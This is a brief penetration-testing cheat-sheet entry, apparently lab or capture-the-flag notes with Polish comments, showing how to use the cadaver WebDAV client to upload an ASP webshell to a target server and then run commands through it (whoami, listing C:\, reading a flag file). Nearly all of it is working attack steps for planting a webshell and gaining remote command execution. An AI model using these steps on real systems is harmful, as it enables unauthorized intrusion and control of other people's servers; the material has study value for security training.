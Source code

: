 # $ cadaver

Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

```bash
$ cadaver
> open http://target/webdav
 username: ...
 password: ...
> put /usr/share/webshells/asp/webshell.asp # wgranie webshella na server
# otworzyć webshell w przeglądarce

http://target/webdav/webshell.asp?cmd=whoami
http://target/webdav/webshell.asp?cmd=dir+C%3A%5C
http://target/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt
```